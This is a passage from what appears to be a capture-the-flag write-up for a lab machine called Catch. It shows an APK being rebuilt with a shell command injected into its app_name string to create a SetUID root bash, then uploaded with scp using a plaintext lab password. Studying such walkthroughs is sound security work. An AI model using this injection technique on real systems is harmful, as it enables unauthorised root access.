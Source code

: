 

I'll verify that I can rebuild that with no changes, just to make sure
my system is working:



    oxdf@hacky$ java -jar apktool_2.6.1.jar b -f decomp/ -o test.apk
    I: Using Apktool 2.6.1
    I: Smaling smali folder into classes.dex...
    I: Building resources...
    I: Building apk file...
    I: Copying unknown files/dir...
    I: Built apk...
    oxdf@hacky$ rm test.apk 



I was getting errors at one point that kind of looked like [this
issue](https://github.com/iBotPeaches/Apktool/issues/1842), and were
fixed by running `apktool empty-framework-dir --force` as suggested
there.

I'll open `decomp/res/values/strings.xml` and edit the `app_name`:



        <string name="app_name">Catch$(cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf)</string>



This will copy `bash` into `/tmp` and make it SetUID to run as root.

Build it back up:



    oxdf@hacky$ java -jar apktool_2.6.1.jar b -f decomp/ -o modified.apk
    I: Using Apktool 2.6.1
    I: Smaling smali folder into classes.dex...
    I: Building resources...
    I: Building apk file...
    I: Copying unknown files/dir...
    I: Built apk...



#### Upload

I'll upload this to Catch using `scp`, right into the dropbox directory:



    oxdf@hacky$ sshpass -p 's2#4Fg0_%3!' scp modified.apk will@10.10.11.150:/opt/mdm/apk_bin/



#### Shell

Once a minute rolls over, I'll check, and there's a SetUID `0xdf` file
in `/tmp`:



    will@catch:/opt/mdm$ ls -l /tmp/0xdf
    -rwsrwxrwx 1 root root 1183448 Jun 29 20:16 /tmp/0xdf
